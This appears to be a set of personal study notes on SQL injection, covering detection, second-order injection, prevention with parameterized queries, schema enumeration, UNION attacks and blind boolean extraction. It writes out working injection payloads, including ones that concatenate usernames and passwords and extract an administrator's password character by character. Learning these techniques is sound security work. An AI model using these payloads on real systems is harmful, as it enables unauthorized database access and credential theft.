 ## Detecting SQLi

SQLi can be manually detected by using a systematic set of tests against every entry point in the application, which typically involves:

- ' character
- submitting SQL-specific syntax that evaluates to the original value of the entry point, and to a different value and looking for systematic changes between the responses
- submitting boolean conditions such as OR 1=1 and OR 1=2 and looking for differences in the app response
- submitting payloads designed to trigger time delays (such as sleep() command) and looking for differences in time taken to respond
- submitting payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitoring for those interactions

## Second-order SQL injection

first-order SQLi arises when the application takes user input from an HTTP request and, while processing that request, incorporates the input into a SQL query in an unsafe way

second-order SQLi happens when user input is placed into the database and then retrieved at a later time, no vulnerability arises at the moment data is stored, but when data is retrieved it ends up being incorporated into a SQL query in an unsafe way

generally it arises in situations where developers are aware of SQLi and safely handle the initial placement of the input into the database, but when data is being processed later it is deemed as safe and the vulnerability is triggered

## Preventing SQL injection

most instances of SQLi can be prevented using parametrized queries (also known as prepared statements), it can be used for any situation where untrusted input appears as data within the query, including the **WHERE**, **INSERT** or **UPDATE** statements. They can not be used to handle untrusted input in other parts of the query, such as table/column names, or the **ORDER BY** clause, applications that put untrusted data in those parts of the query will need a different approach, such as using a list of allowed values

## Enumerating the database

it is often necessary to gather information about the database itself, including type and version of db software, as well as contents of the db in terms of which tables and columns are present

### Enumerating type and version

different db types have different ways of checking the version, such as

| DB Type | Query | 
| - | - | 
| Microsoft, MySQL | SELECT @@version |
| Oracle | SELECT * FROM v$version | 
| PostgreSQL | SELECT version() |

example injection:
	' UNION SELECT @@version -- 


## Listing the contents of the database

most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database

a query to *information_schema.tables* to list the tables in the database

	SELECT * FROM information_schema.tables

returns output like the following:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| - | - | - | - |
| MyDatabase | dbo | Products | BASE TABLE |
| MyDatabase | dbo | Users | BASE TABLE |
| MyDatabase | dbo | Feedback | BASE TABLE |


it is then possible to query *information_schema.columns*

	SELECT * FROM information_schema.columns WHERE table_name = 'Users'

with an output like:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | COLUMN_NAME | DATA_TYPE | 
| - | - | - | - | - | 
| MyDatabase | dbo | Users | UserId | int |
| MyDatabase | dbo | Users | Username | varchar |
| MyDatabase | dbo | Users | Password | varchar | 

### Equivalent to information schema on Oracle:

it is possible to obtain the same information with slightly different queries

list tables by querying *all_tables*

	  SELECT * FROM all_tables

list columns by querying *all_tab_columns*

	SELECT * FROM all_tab_columns WHERE table_name = 'USERS'



## UNION attacks

when an application is vulenrable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database

the UNION keyword lets one or more additional SELECT queries be executed and appended to the original query

for it to work two key requirements must be met:
- the individual queries must return the same number of columns
- the data types in each column must be compatbile between the individual queries

### Determining the number of columns required in a SQL injection UNION attack

the first method involves inejcting a series of ORDER BY clauses and incrementing the specified column index until an error occurs

	' ORDER BY 1--
	' ORDER BY 2--
	' ORDER BY 3--

when the specified index exceeds the number of columns in the result set the database will return an error, a generic error or simply no return results, provided it is possible to detect some difference in the application's response you can infer how many columns are being returned

the second method involves submitting a series of UNION SELECT payloads specifying different numbers of NULL values

	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--

again if the number of nulls does not match the number of columns the database might return an error, a generic error or no results

### Finding columns with useful data types using an UNION attack

generally the interesting data to retrieve with an UNION attack will be in string form, so it is needed to find a column in the original query whose data-type is compatible with string data

it is possible to probe each column after determining the number of columns returned


	' UNION SELECT 'a',NULL,NULL--
	' UNION SELECT NULL,'a',NULL--
	' UNION SELECT NULL,NULL,'a'--

if the data type is not compatbile the injection will cause an error, if it is compatbile the application response might contain some additional content including the injected string ['a' in this case]

### Retrieving multiple values within a single column

if only one compatbile column is being returned it is possible to return multiple values together by concatenating them, ideally inputting a separator for clarity reasons

	' UNION SELECT username || ':' || password FROM users-- 
[consult the database documentation to see which concatenation operators are available]

examples:
- oracle : 'foo'||'bar'
- microsoft:  'foo'+'bar'
- postgresql: 'foo'||'bar' or concat(foo,bar)
- mysql: 'foo' 'bar' [with a space in between] or CONCAT('foo','bar')


## Blind SQL injection

blind SQL injection occurs when the application is vulnerable to SQLi but the response does not include the resulsts of the relevant SQL query or the details of any database errors, so in this case it is not possible to use techniques such as UNION attacks

### Exploiting blind SQL injection by triggering conditional responses

if it is possible to perceive a different behavior on whether or not the query succeeds then it is possible to exfiltrate data by doing a series of conditional comparisons

for example, in a cookie parameter that is being compared to values stored in the database it might be possible to inject and exfiltrate the *password* of a given *administrator* in the *user*s table by doing the following:

	' AND substring((SELECT password FROM users WHERE username='administrator'),1,1) > 'm \\ returns true so we keep testing letters above 'm'

	' AND substring((SELECT password FROM users WHERE username='administrator'),1,1) > 't \\ returns false so it is possible to infer that the first letter of the password is in between m and (including) t

	' AND substring((SELECT password FROM users WHERE username='administrator'),1,1) = 's \\returns true so through a series of comparisons it was possible to determine the first letter of the password

the full password can be exfiltrated by changing the position parameter of the substring() function to check for every character in the password 

